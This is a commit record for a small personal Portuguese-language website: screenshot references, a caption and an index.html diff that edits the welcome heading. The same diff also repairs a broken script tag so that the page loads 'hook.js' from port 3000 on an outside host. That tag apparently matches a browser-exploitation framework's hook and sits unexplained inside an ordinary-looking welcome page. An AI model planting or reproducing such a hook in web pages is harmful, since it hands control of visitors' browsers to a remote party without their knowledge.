

Before and after one commit to Biazinhapinky/meu-site, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -35,9 +35,9 @@
     </style>
 </head>
 <body>
-<script src="http://<IP>:3000/hook.js"></script
+<script src="http://<IP>:3000/hook.js"></script>
     <header>
-        <h1>Bem-vindo ao Meu Site!</h1>
+        <h1>Oiee, eu sou a Biazinha e Bem-vindo ao Meu Site!</h1>
     </header>
 
     <main>
```
